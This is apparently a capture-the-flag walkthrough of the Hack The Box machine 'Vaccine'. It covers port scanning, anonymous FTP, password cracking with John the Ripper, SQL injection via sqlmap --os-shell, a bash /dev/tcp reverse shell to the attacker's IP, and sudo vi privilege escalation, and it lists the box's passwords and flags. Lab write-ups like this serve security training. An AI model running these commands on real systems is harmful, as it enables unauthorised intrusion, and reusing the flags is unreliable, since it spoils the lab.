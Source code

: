 # Vaccine
- Difficulty: Very easy

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. Besides SSH and HTTP, what other service is hosted on this box?**
- Use `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]` to scan for open ports.
![nmap](img/nmap.png)
> **Answer:** FTP

**2. This service can be configured to allow login with any password for specific username. What is that username?**
- You can login into FTP without an account with username `anonymous` and password `anonymous@domain.com`  
![ano](img/anonymous.png)
> **Answer:** anonymous

**3. What is the name of the file downloaded over this service?**
- After logging in, list files and you see `backup.zip`. Download this one by `get` command.  
![get](img/get.png)
> **Answer:** backup.zip
- But now unzipping this file requires a password.  
![unzip](img/unzip1.png)

**4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?**
> **Answer:** zip2john
- Run `zip2john backup.zip > hash` to extract the hashed password.  
![zip2](img/zip2.png)
- Use **John The Ripper** to crack this hash string (you can also add wordlists if needed) and it returns `741852963` as the password we're looking for  
![john](img/john.png)
- Re-unzip this file using the cracked password, revealing 2 files: index.php and style.css  
![unzip](img/unzip2.png)

**5. What is the password for the admin user on the website?**
- In index.php, a hashed password for admin is found.  
```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```
- Using **john** with RockYou wordlist, we get `qwerty789` as password for `admin`  
![john](img/johnadmin.png) 
> **Answer:** qwerty789

**6. What option can be passed to sqlmap to try to get command execution via the sql injection?**
- Run  `sqlmap -h` to list available options  
![os](img/os.png)
> **Answer:** --os-shell

**7. What program can the postgres user run as root using sudo?**
- In our scan report, we can see that this machine has port 80 open. Visit `http://[IP-Address]` and log in with `admin` and `qwerty789`. This leads to the **Admin Dashboard**.  
![dash](img/dash.png)
- This page shows a table with information such as name, type,... of cars, and also has a search box.
- When we type some text in this box and click **search**, the parameter in the URL will change to our text  
![search](img/search.png)
- Run `sqlmap -u 'http://[IP-Address]/dashboard.php?search=conmeo' --cookie 'PHPSESSID=[cookie-value]' --os-shell`. 
- If you run this command and encounter error like **unable to prompt for an interactive operating system shell via the back-end DBMS because stacked queries SQL injection is not supported**, add `--flush-session --time-sec=20` at the end. That works for me =)))) Read more [here](https://forum.hackthebox.com/t/machine-name-vaccine-stuck-on-getting-sql-code-execution-shell/2513/58)
![critical](img/critical.png)
- Now use **Netcat** to create a **Reverse Shell**
    - On our machine, run `nc -lvnp 4444`
    - On target machine (os-shell), run `bash -c "bash -i >& /dev/tcp/[our-IP-Address]/[port] 0>&1"` 
    ![ev](img/rev.png)
- Once connected, we can remotely excecute on the target machine. After wandering around, I found some file in `/var/www/html`
![cd](img/cd.png)
- Looking for **password** in `dashboard.php` and we have this `P@s5w0rd!`
![pw](img/pw.png) 
- SSH into PostgreSQL with `ssh @[IP-Address]`. Answer **yes** and enter the above password. Here we are using as user `postgres@vaccine`.
![ssh](img/ssh.png)
- Run `sudo -l` to find out all command we run as root. What we can see from the ouput is that we can use `vi` to edit a file
![vi](img/vi.png)

> **Answer:** vi

## Submit user flag
- The user flag should be located in `/var/lib/postgresql` directory  
![flag](img/flag.png)
- **User flag:** ec9b13ca4d6229cd5cc1e09980965bf7

## Submit root flag
- Now edit `/etc/postgresql/11/main/pg_hba.conf` with `vi`, then add: 
```
:set shell=/bin/sh
:shell
```
- This spawns a shell, allowing root access.  
![set](img/set.png)
- After that we can run as normal root user. The root flag is located in `root` directory
![flag](img/flag1.png)  
- **Root flag:** dd6e058e814260bc70e9bbdef2715849

